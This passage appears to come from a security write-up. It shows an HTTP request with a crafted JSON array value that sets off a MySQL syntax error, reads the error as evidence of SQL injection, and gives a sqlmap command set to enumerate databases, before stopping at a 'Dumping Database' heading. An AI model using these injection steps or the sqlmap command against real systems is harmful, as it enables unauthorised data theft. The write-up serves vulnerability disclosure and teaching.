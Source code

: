 ```http
Sec-Fetch-Site: same-origin
Te: trailers

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": [
    "naveenj@thevillagehacker.com",
    " "
  ],
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "code": 400,
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ' '*'' at line 1"
}
```

The server responds with an error message indicating a SQL syntax error. This suggests that the application is using a MySQL database. Further exploitation can be automated using SQLMAP.

## SQLMAP Automation

```bash
python .\sqlmap\sqlmap.py -r "request.txt" --batch --dbs --risk 3 --level 4 --random-agent --tamper=between --proxy=http://127.0.0.1:8080
```

## Dumping Database
